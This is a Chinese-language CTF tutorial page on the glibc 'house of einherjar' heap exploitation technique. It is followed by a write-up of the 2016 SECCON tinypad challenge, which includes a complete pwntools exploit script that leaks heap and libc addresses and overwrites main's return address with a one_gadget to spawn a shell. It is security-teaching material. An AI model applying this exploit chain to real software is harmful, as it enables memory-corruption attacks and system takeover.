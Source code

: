 House Of Einherjar
==================

介绍
----

house of einherjar 是一种堆利用技术，由 ``Hiroki Matsukuma`` 提出。该堆利用技术可以强制使得 ``malloc`` 返回一个几乎任意地址的 chunk 。其主要在于滥用 ``free``
中的后向合并操作（合并低地址的chunk），从而使得尽可能避免碎片化。

此外，需要注意的是，在一些特殊大小的堆块中，off by one 不仅可以修改下一个堆块的 prev_size，还可以修改下一个堆块的 PREV_INUSE 比特位。

原理
----

后向合并操作
~~~~~~~~~~~~

``free`` 函数中的后向合并核心操作如下

.. code:: c

            /* consolidate backward */
            if (!prev_inuse(p)) {
                prevsize = prev_size(p);
                size += prevsize;
                p = chunk_at_offset(p, -((long) prevsize));
                unlink(av, p, bck, fwd);
            }

这里借用原作者的一张图片说明

|image0|

关于整体的操作，请参考 ``深入理解堆的实现`` 那一章节。

利用原理
~~~~~~~~

这里我们就介绍该利用的原理。首先，在之前的堆的介绍中，我们可以知道以下的知识

-  两个物理相邻的 chunk 会共享 ``prev_size``\ 字段，尤其是当低地址的 chunk 处于使用状态时，高地址的chunk的该字段便可以被低地址的 chunk 使用。因此，我们有希望可以通过写低地址 chunk 覆盖高地址 chunk 的
   ``prev_size`` 字段。
-  一个 chunk PREV_INUSE 位标记了其物理相邻的低地址 chunk 的使用状态，而且该位是和 prev_size 物理相邻的。
-  后向合并时，新的 chunk 的位置取决于 ``chunk_at_offset(p, -((long) prevsize))`` 。

**那么如果我们可以同时控制一个chunk prev_size 与 PREV_INUSE 字段，那么我们就可以将新的 chunk 指向几乎任何位置。**

利用过程
~~~~~~~~

溢出前
^^^^^^

假设溢出前的状态如下

|image1|

溢出
^^^^

这里我们假设 p0 堆块一方面可以写prev_size字段，另一方面，存在off by one的漏洞，可以写下一个 chunk 的PREV_INUSE 部分，那么

|image2|

溢出后
^^^^^^

**假设我们将 p1的 prev_size 字段设置为我们想要的目的 chunk 位置与p1的差值**\ 。在溢出后，我们释放p1，则我们所得到的新的 chunk 的位置 ``chunk_at_offset(p1, -((long) prevsize))`` 就是我们想要的 chunk
位置了。

当然，需要注意的是，由于这里会对新的 chunk 进行 unlink ，因此需要确保在对应 chunk 位置构造好了fake chunk 以便于绕过 unlink 的检测。

|image3|

总结
~~~~

这里我们总结下这个利用技术需要注意的地方

-  需要有溢出漏洞可以写物理相邻的高地址的 prev_size 与 PREV_INUSE 部分。
-  我们需要计算目的 chunk 与 p1 地址之间的差，所以需要泄漏地址。
-  我们需要在目的 chunk 附近构造相应的 fake chunk，从而绕过 unlink 的检测。

其实，该技术与 chunk extend/shrink 技术比较类似。

2016 Seccon tinypad
-------------------

基本功能分析
~~~~~~~~~~~~

首先，可以看出，程序以来一个核心的读取函数，即读取指定长度字节的字符串，然而，当读取的长度恰好为指定的长度时，会出现 **off by one 的漏洞**\ 。

通过分析程序，我们不难看出，这个程序的基本功能是操作一个 tinypad，主要有以下操作

-  开头，程序每次开头依次判断每个 memo 的指针来判断是否为空，如果不为空，进而利用 strlen 求得其相应的长度，将 memo 的内容输出。从这里，我们也可以看出最多有 4 个 memo。
-  添加 memo，遍历存储 memo 的变量tinypad，根据 tinypad 的存储的大小判断 memo 是否在使用，然后还有的话，分配一个 memo。从这里我们可以知道，程序只是从 tinypad 起始偏移16*16=256 处才开始使用，每个 memo
   存储两个字段，一个是该 memo 的大小，另一个是该 memo 对应的指针。所以我们可以创建一个新的结构体，并修改 ida 识别的 tinypad，使之更加可读（但是其实 ida
   没有办法帮忙智能识别。）。同时，由于该添加功能依赖于读取函数，所以存在 off by one 的漏洞。此外，我们可以看出，用户申请的 chunk 的大小最大为 256 字节，和 tinypad 前面的未使用的 256 字节恰好一致。
-  删除，根据存储 memo 的大小判断 memo 是否在被使用，同时将相应 memo 大小设置为0，但是并没有将指针设置为 NULL，有可能会导致 Use After
   Free。\ **即在程序开头时，就有可能输出一些相关的内容，这其实就是我们泄漏一些基地址的基础**\ 。
-  编辑。在编辑时，程序首先根据之前存储的 memo 的内容将其拷贝到 tinypad 的前 256 个字节中，但正如我们之前所说的，当 memo 存储了 256 个字节时，就会存在 off by one漏洞。与此同时，程序利用 strlen
   判断复制之后的 tinypad 的内容长度，并将其输出。之后程序继续利用 strlen 求得 memo 的长度，并读取指定长度内容到 tinypad 中，根据读取函数，这里必然出现了 ``\x00``\ 。最后程序将读取到 tinypad 前 256
   字节的内容放到对应 memo 中。
-  退出

利用
~~~~

基本利用思路如下

1. 利用删除时没有将指针置为NULL的 UAF 漏洞，泄漏堆的基地址
2. 再次利用 UAF 漏洞泄漏 libc 的基地址。
3. 利用 house of einherjar 方法在 tinypad 的前 256 字节中伪造 chunk。当我们再次申请时，那么就可以控制4个 memo 的指针和内容了。
4. 这里虽然我们的第一想法可能是直接覆盖 malloc_hook 为 one_gadget 地址，但是，由于当编辑时，程序是利用 strlen 来判读可以读取多少长度，而 malloc_hook 则在初始时为
   0。所以我们直接覆盖，所以这里采用其他方法，即修改程序的 main 函数的返回地址为 one_gadget，之所以可以行得通，是因为返回地址往往是 7f 开头的，长度足够长，可以覆盖为one_gadget。所以我们还是需要泄漏
   main 函数的返回地址，由于 libc 中存储了 main 函数 environ 指针的地址，所以我们可以先泄露出environ 的地址，然后在得知存储 main 函数的返回地址的地址。这里选取 environ 符号是因为 environ 符号在 libc
   中会导出，而像 argc 和 argv 则不会导出，相对来说会比较麻烦一点。
5. 最后修改 main 函数的返回地址为 one_gadget 地址获取shell。

具体利用脚本如下

.. code:: python

    from pwn import *
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    if args['DEBUG']:
        context.log_level = 'debug'
    tinypad = ELF("./tinypad")
    if args['REMOTE']:
        p = remote('127.0.0.1', 7777)
        libc = ELF('./libc.so.6')
    else:
        p = process("./tinypad")
        libc = ELF('./libc.so.6')
        main_arena_offset = 0x3c4b20
    log.info('PID: ' + str(proc.pidof(p)[0]))


    def add(size, content):
        p.recvuntil('(CMD)>>> ')
        p.sendline('a')
        p.recvuntil('(SIZE)>>> ')
        p.sendline(str(size))
        p.recvuntil('(CONTENT)>>> ')
        p.sendline(content)


    def edit(idx, content):
        p.recvuntil('(CMD)>>> ')
        p.sendline('e')
        p.recvuntil('(INDEX)>>> ')
        p.sendline(str(idx))
        p.recvuntil('(CONTENT)>>> ')
        p.sendline(content)
        p.recvuntil('Is it OK?\n')
        p.sendline('Y')


    def delete(idx):
        p.recvuntil('(CMD)>>> ')
        p.sendline('d')
        p.recvuntil('(INDEX)>>> ')
        p.sendline(str(idx))


    def run():
        p.recvuntil(
            '  ============================================================================\n\n'
        )
        # 1. leak heap base
        add(0x70, 'a' * 8)  # idx 0
        add(0x70, 'b' * 8)  # idx 1
        add(0x100, 'c' * 8)  # idx 2

        delete(2)  # delete idx 1
        delete(1)  # delete idx 0, idx 0 point to idx 1
        p.recvuntil(' # CONTENT: ')
        data = p.recvuntil('\n', drop=True)  # get pointer point to idx1
        heap_base = u64(data.ljust(8, '\x00')) - 0x80
        log.success('get heap base: ' + hex(heap_base))

        # 2. leak libc base
        # this will trigger malloc_consolidate
        # first idx0 will go to unsorted bin
        # second idx1 will merge with idx0(unlink), and point to idx0
        # third idx1 will merge into top chunk
        # but cause unlink feture, the idx0's fd and bk won't change
        # so idx0 will leak the unsorted bin addr
        delete(3)
        p.recvuntil(' # CONTENT: ')
        data = p.recvuntil('\n', drop=True)
        unsorted_offset_arena = 8 + 10 * 8
        main_arena = u64(data.ljust(8, '\x00')) - unsorted_offset_arena
        libc_base = main_arena - main_arena_offset
        log.success('main arena addr: ' + hex(main_arena))
        log.success('libc base addr: ' + hex(libc_base))

        # 3. house of einherjar
        add(0x18, 'a' * 0x18)  # idx 0
        # we would like trigger house of einherjar at idx 1
        add(0x100, 'b' * 0xf8 + '\x11')  # idx 1
        add(0x100, 'c' * 0xf8)  # idx 2
        add(0x100, 'd' * 0xf8)  #idx 3

        # create a fake chunk in tinypad's 0x100 buffer, offset 0x20
        tinypad_addr = 0x602040
        fakechunk_addr = tinypad_addr + 0x20
        fakechunk_size = 0x101
        fakechunk = p64(0) + p64(fakechunk_size) + p64(fakechunk_addr) + p64(
            fakechunk_addr)
        edit(3, 'd' * 0x20 + fakechunk)

        # overwrite idx 1's prev_size and
        # set minaddr of size to '\x00'
        # idx 0's chunk size is 0x20
        diff = heap_base + 0x20 - fakechunk_addr
        log.info('diff between idx1 and fakechunk: ' + hex(diff))
        # '\0' padding caused by strcpy
        diff_strip = p64(diff).strip('\0')
        number_of_zeros = len(p64(diff)) - len(diff_strip)
        for i in range(number_of_zeros + 1):
            data = diff_strip.rjust(0x18 - i, 'f')
            edit(1, data)
        delete(2)
        p.recvuntil('\nDeleted.')

        # fix the fake chunk size, fd and bk
        # fd and bk must be unsorted bin
        edit(4, 'd' * 0x20 + p64(0) + p64(0x101) + p64(main_arena + 88) +
             p64(main_arena + 88))

        # 3. overwrite malloc_hook with one_gadget

        one_gadget_addr = libc_base + 0x45216
        environ_pointer = libc_base + libc.symbols['__environ']
        log.info('one gadget addr: ' + hex(one_gadget_addr))
        log.info('environ pointer addr: ' + hex(environ_pointer))
        #fake_malloc_chunk = main_arena - 60 + 9
        # set memo[0].size = 'a'*8,
        # set memo[0].content point to environ to leak environ addr
        fake_pad = 'f' * (0x100 - 0x20 - 0x10) + 'a' * 8 + p64(
            environ_pointer) + 'a' * 8 + p64(0x602148)
        # get a fake chunk
        add(0x100 - 8, fake_pad)  # idx 2
        #gdb.attach(p)

        # get environ addr
        p.recvuntil(' # CONTENT: ')
        environ_addr = p.recvuntil('\n', drop=True).ljust(8, '\x00')
        environ_addr = u64(environ_addr)
        main_ret_addr = environ_addr - 30 * 8

        # set memo[0].content point to main_ret_addr
        edit(2, p64(main_ret_addr))
        # overwrite main_ret_addr with one_gadget addr
        edit(1, p64(one_gadget_addr))
        p.interactive()


    if __name__ == "__main__":
        run()

参考文献
--------

-  https://www.slideshare.net/codeblue_jp/cb16-matsukuma-en-68459606
-  https://gist.github.com/hhc0null/4424a2a19a60c7f44e543e32190aaabf

.. |image0| image:: /pwn/heap/figure/backward_consolidate.png
.. |image1| image:: /pwn/heap/figure/einherjar_before_overflow.png
.. |image2| image:: /pwn/heap/figure/einherjar_overflowing.png
.. |image3| image:: /pwn/heap/figure/einherjar_after_overflow.png
